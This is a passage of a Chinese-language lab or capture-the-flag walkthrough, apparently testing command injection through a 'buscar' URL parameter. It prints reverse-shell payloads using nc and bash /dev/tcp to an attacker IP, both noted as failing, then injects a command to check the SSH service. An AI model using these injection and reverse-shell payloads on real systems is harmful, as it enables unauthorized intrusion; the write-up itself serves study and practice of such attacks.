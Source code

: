 

```
?buscar=nc -e /bin/bash 192.1.3 283
```

![image-20250316214343204](assets/image-20250316214343204.png)执行后并没有建立连接

![image-20250316214253928](assets/image-20250316214253928.png)





#### 尝试bash反弹shell

```
?buscar=bash -i >& /dev/tcp/192.168.1.3/283 0>&1
```

失败



#### 由于目前还有一个账号密码，尝试查看ssh状态，尝试ssh登录

```
?buscar=systemctl status ssh
```

![image-20250316214325063](assets/image-20250316214325063.png)可以看到ssh服务正常开启
